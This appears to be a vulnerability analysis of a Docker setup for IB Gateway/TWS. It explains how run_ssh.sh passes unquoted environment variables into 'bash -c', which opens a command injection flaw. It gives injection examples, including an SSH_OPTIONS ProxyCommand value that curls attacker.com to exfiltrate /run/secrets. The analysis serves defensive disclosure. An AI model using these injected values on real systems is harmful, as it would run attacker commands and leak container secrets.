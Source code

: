 **SSH Tunnel Launch (start_ssh in common.sh:198-232):**

When `start_ssh()` executes, it:
1. Checks if a tunnel is already running (using pgrep)
2. Validates that ssh-agent is running
3. Sets `SSH_REMOTE_PORT` (defaults to the same as `API_PORT` if not specified)
4. Conditionally constructs `SSH_SCREEN` for VNC/RDP tunnel:
   - For IB Gateway: If `SSH_VNC_PORT` is set, creates `-R 127.0.0.1:5900:localhost:$SSH_VNC_PORT`
   - For TWS: If `SSH_RDP_PORT` is set, creates `-R 127.0.0.1:3389:localhost:$SSH_RDP_PORT`
5. Exports `SSH_ALL_OPTIONS`, `SSH_SCREEN`, and `SSH_REMOTE_PORT`
6. Launches `run_ssh.sh` in the background

**THE VULNERABILITY - run_ssh.sh:11-15:**

The `run_ssh.sh` script is where the command injection vulnerability exists. The script runs an infinite loop that continuously maintains the SSH tunnel, restarting it if it dies:

```bash
_OPTIONS="$SSH_ALL_OPTIONS"    # Contains user-supplied SSH_OPTIONS
_LOCAL_PORT="$API_PORT"         # 4001/4002 (gateway) or 7496/7497 (TWS)
_REMOTE_PORT="$SSH_REMOTE_PORT" # User-configurable or defaults to API_PORT
_SCREEN="$SSH_SCREEN"           # VNC/RDP tunnel options or empty
_USER_TUNNEL="$SSH_USER_TUNNEL" # Required: user@server connection string
_RESTART="$SSH_RESTART"         # Seconds to wait before restart (default 5)

while true; do
    echo ".> Starting ssh tunnel with ssh sock: $SSH_AUTH_SOCK"
    bash -c "ssh ${_OPTIONS} -TNR 127.0.0.1:${_LOCAL_PORT}:localhost:${_REMOTE_PORT} ${_SCREEN:-} ${_USER_TUNNEL}"
    sleep "${_RESTART:-5}"
done
```

**The Critical Problem:**

Line 13 uses `bash -c` with an unquoted variable expansion. When bash evaluates this line, it first expands all the variables (using word splitting), then passes the resulting string to `bash -c` which parses it as shell code. This creates a double-parsing vulnerability.

**Attack Vector:**

If any of the environment variables (`SSH_OPTIONS`, `SSH_SCREEN`, or `SSH_USER_TUNNEL`) contain shell metacharacters, they will be interpreted as shell commands. For example:

```bash
SSH_USER_TUNNEL="user@host; malicious-command; #"
# Results in executing:
bash -c "ssh <options> user@host; malicious-command; #"
# Which runs: ssh <options> user@host
# Then runs: malicious-command
# Then ignores the rest: #
```

Even more dangerous:
```bash
SSH_OPTIONS="-o ProxyCommand='curl http://attacker.com/$(cat /run/secrets/*)''"
# Exfiltrates all Docker secrets to attacker
```
